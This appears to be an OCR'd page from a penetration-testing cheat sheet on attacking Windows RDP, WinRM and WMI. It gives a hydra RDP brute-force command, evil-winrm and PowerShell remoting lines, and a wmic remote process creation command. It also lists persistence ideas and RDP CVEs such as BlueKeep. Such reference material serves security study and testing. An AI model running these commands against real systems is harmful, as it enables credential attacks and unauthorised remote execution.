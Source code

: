 ## Attack Vectors

### RDP Attack Vectors
```bash
# RDP brute force
hydra -l administrator -P passwords.txt rdp://target

# RDP vulnerability exploitation
# BlueKeep (CVE-2019-0708)
# DejaBlue (CVE-2019-1181, CVE-2019-1182)

# RDP credential harvesting
# Keyloggers in RDP sessions
# Clipboard monitoring
```

### WinRM Attack Vectors
```bash
# WinRM command execution
evil-winrm -i target -u username -p password

# WinRM PowerShell exploitation
Enter-PSSession -ComputerName target -Credential username
Invoke-Command -ComputerName target -ScriptBlock {whoami}

# WinRM persistence
# Event subscriptions via WMI
# Scheduled tasks
```

### WMI Attack Vectors
```bash
# WMI command execution
wmic /node:target process call create "cmd.exe /c command"

# WMI persistence
# Event subscriptions
# MOF files
# WMI classes

# WMI lateral movement
# Remote process creation
# Service manipulation
```

## Common Vulnerabilities

### RDP Vulnerabilities
- **CVE-2019-0708**: BlueKeep RCE vulnerability
- **CVE-2019-1181**: DejaBlue RCE vulnerability
- **CVE-2019-1182**: DejaBlue RCE vulnerability
- **CVE-2012-0002**: RDP denial of service
- **CVE-2018-0886**: CredSSP authentication bypass
